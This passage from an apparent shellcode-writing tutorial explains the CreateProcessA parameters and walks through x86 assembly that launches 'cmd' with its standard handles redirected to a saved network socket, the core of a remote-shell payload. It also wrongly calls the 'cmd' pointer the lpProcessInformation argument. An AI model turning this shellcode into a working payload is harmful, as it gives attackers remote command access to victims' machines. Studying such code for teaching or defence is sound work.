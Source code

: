 
>dwCreationFlags

* The flags that control the priority class and the creation of the process.

>lpEnvironment

* A pointer to the environment block for the new process. If this parameter is NULL, the new process uses the environment of the calling process.


>lpCurrentDirectory

* The full path to the current directory for the process. The string can also specify a UNC path.

>lpStartupInfo

* A pointer to a <code  style="background-color: lightgrey; color:black;"><b>STARTUPINFO</b></code> or <code  style="background-color: lightgrey; color:black;"><b>STARTUPINFOEX</b></code> structure.

>lpProcessInformation

* A pointer to a <code  style="background-color: lightgrey; color:black;"><b>PROCESS_INFORMATION</b></code> structure that receives identification information about the new process.


<p align="justify">
The following code used to impement and call the <code  style="background-color: lightgrey; color:black;"><b>CreateProcessA</b></code> function 
</p>

```c
PUSH 0x61646d63                      ;"admc"
SUB  dword [ESP + 0x3], 0x61         ;"dmc" (remove "a")
MOV  ECX, ESP                        ;ecx now points to "cmd" string
```

<p align="justify">
At Lines 1-3 above, the instructions are setting the <code  style="background-color: lightgrey; color:black;"><b>ECX</b></code> register to point to <b>"cmd"</b> string. This is the <code  style="background-color: lightgrey; color:black;"><b>lpProcessInformation</b></code> argument of <code  style="background-color: lightgrey; color:black;"><b>CreateProcessA</b></code>, and provides the name of the module to be executed
</p>

```c
XOR  EDX, EDX                        ;zero out EDX
SUB  ESP, 16 
MOV  EBX, ESP                        ;pointer for ProcessInfo
```

<p align="justify">
As we see at the code above, at the first line we zero out the <code  style="background-color: lightgrey; color:black;"><b>EDX</b></code> register. At lines 2-3, we are setting the <code  style="background-color: lightgrey; color:black;"><b>EBX</b></code> register to point to <code  style="background-color: lightgrey; color:black;"><b>PROCESS_INFORMATION</b></code> structure.
</p>


```c
PUSH EDI                             ;hStdError  => saved socket
PUSH EDI                             ;hStdOutput => saved socket
PUSH EDI                             ;hStdInput  => saved socket
PUSH EDX                             ;lpReserved2 => NULL 
PUSH EDX                             ;cbReserved2 => NULL
XOR  EAX, EAX                        ;zero out EAX register
INC  EAX                             ;EAX => 0x00000001
ROL  EAX, 8                          ;EAX => 0x00000100
PUSH EAX                             ;dwFlags => STARTF_USESTDHANDLES 0x00000100
PUSH EDX                             ;dwFillAttribute => NULL
PUSH EDX                             ;dwYCountChars => NULL
PUSH EDX                             ;dwXCountChars => NULL
PUSH EDX                             ;dwYSize => NULL
```